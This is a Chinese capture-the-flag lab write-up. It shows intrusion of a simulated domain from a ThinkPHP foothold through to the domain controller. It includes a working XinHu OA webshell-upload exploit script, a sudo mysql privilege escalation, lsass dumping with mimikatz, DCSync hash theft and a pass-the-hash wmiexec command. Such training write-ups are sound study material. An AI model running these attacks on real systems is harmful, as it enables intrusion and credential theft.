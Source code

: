 # 春秋云镜-Initial

```
靶机信息
互联网侧：39.991.149.94
  内网侧:172.22.1.2   （域控-XIAORANG)
        172.22.1.21  （域内-ms17-010）
        172.22.1.18  （域内-信呼OA)
        172.22.1.15  （域外-入口的thinkphp）
```

## 一、外网打点

访问靶机80端口发现web服务

![image-20231112201543560](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112201543560.png)

使用Ehole指纹识别工具（魔改版）识别出存在php框架,并存在thinkphp远程代码执行漏洞

![image-20231112201720803](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112201720803.png)

使用thinkphp利用工具getshell，无法执行命令，直接上传哥斯拉木马

![image-20231112202242565](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112202242565.png)

查看权限只有www网站权限

![image-20231112202424162](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112202424162.png)

上传自动化提权脚本：https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

![image-20231112202613051](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112202613051.png)

./LinEnum.sh > 1.txt 执行，观察发现可以使用mysql提权

![image-20231112203402044](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112203402044.png)

尝试使用sudo -l 执行提权，也提示mysql密码为空

![image-20231112203225418](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112203225418.png)

![image-20231112203653551](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112203653551.png)

> mysql提权命令
>
> sudo mysql -e '\! whoami'
>
> sudo mysql -e '\! ls /root'
>
> sudo mysql -e '\! ls /root/flag'
>
> sudo mysql -e '\! cat /root/flag/flag01.txt'

flag01: flag{60b53231-

## 二、内网探测

查看ip信息为172.22.1.15

![image-20231112203759257](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112203759257.png)

使用App扫描内网

```
./App-amd64linux-noupx -i 172.22.1.0/24 -o 172_22_1.txt
```

![image-20231112204110365](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112204110365.png)

使用neoreg搭建正向代理进入内网

![image-20231112204504373](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112204504373.png)

![image-20231112204553728](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112204553728.png)



三、信呼OA后台默认口令Getshell

![image-20231112205146171](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112205146171.png)

```
信呼OA默认口令
admin/123456 #测试时默认口令被修改为弱口令admin/admin123
zhangfei/123456
```

根据扫描器结果，使用zhangfei/123456登录信呼OA，登录后显示OA版本为2.2.8

![image-20231112205201740](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112205201740.png)

信呼OA后台getshell，使用用户zhangfei/123456上传webshell

```python
import requests

session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'emhhbmdmZWk=',
    'adminpass': 'MTIzNDU2',
    'yanzm': ''    
}

r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'

id = r.json()['id']

print(filepath)

url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)

r = session.get(url_pre + filepath + "?1=system('dir');")

print(r.text)

```

webshel连接地址：http://172.22.1.18/upload/2023-11/12_21035279.php

![image-20231112210514680](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112210514680.png)

![image-20231112210619613](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112210619613.png)

![image-20231112210742893](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112210742893.png)

flag02: 2ce3-4813-87d4-

添加用户加入管理员组rdp远程桌面

adminlstrator/123.com.123

![image-20231112211238733](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112211238733.png)

![image-20231112211552284](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112211552284.png)

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

![image-20231112211643712](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112211643712.png)

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpa
sswords" "exit"> pssword.txt #获取域管理员hash
```

未成功获取域管hash

## 四、MS17010+DCSync获取域管hash横向域控

使用ms17-010攻击域内主机172.22.1.21

![image-20231112220709443](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112220709443.png)

尝试抓取密码和hash

![image-20231112220959505](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112220959505.png)

获取域控名称

![image-20231112221542735](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112221542735.png)

dump所有用户hash

```
kiwi_cmd lsadump::dcsync /all /csv
```

![image-20231112221839590](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112221839590.png)

500     Administrator   10cf89a850fb1cdbe6bb432b859164c8    

利用wmiexec.py横向域控获取flag03

```
python3 wmiexec.py -hashes :10cf89a850fb1cdbe6bb432b859164c8 xiaorang/administrator@172.22.1.2 "type Users\Administrator\flag\flag03.txt"
```

![image-20231112225332605](%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-Initial.assets/image-20231112225332605.png)

```
flag03: e8f88d0d43d6}
```

flag: flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}



